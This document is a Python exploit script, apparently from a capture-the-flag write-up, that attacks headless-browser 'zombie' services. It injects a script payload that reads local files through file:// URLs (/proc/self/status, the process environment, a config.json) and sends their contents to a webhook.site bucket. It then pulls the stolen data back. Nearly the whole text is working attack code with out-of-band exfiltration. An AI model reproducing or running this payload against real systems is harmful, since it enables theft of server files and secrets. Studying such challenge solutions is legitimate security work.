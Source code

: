 ```python
    r = requests.post("https://webhook.site/token")
    bucket_id = r.json()["uuid"]
    with open(token_path, "w") as f:
        f.write(bucket_id)

bucket_url = f"https://webhook.site/{bucket_id}"

# execute exploit
for i in range(1, 4+1):
    base_base = f'https://zombie-{i}01-tlejfksioa-ul.a.run.app/'
    visit_base = f'{base_base}/visit?url='
    show_base = f'{base_base}/zombie?show='
    # abuses the fact that zombie has no origin separation
    # https://github.com/nodejs/security-wg/pull/442
    # https://github.com/assaf/zombie/issues/1169
    payload = f"""
    <script>
    (async function() {{
        let url = "file:///proc/self/status";
        let response = await fetch(url);
        let content = await response.text();
        let pid = content.toString().split("\\n")[3].split("\\t")[1];

        url = "file:///proc/" + pid + "/environ";
        response = await fetch(url);
        content = await response.text();
        url = "file://" + content.split("\\u0000")[8].split("=")[1] + "/config.json"
        response = await fetch(url);
        content = await response.json();

        await fetch("{bucket_url}?content=" + JSON.stringify(content));
    }})();
    </script>
    """


    target_url = visit_base + urllib.parse.quote_plus(show_base + urllib.parse.quote_plus(payload))
    r = requests.get(target_url)

    # fetch result from request bucket
    time.sleep(.1)
    r = requests.get(f"https://webhook.site/token/{bucket_id}/requests?sorting=newest")
    content = json.loads(r.json()["data"][0]["query"]["content"])
    print(f"zombie-{i}01: ", content)
```

{% endraw %}
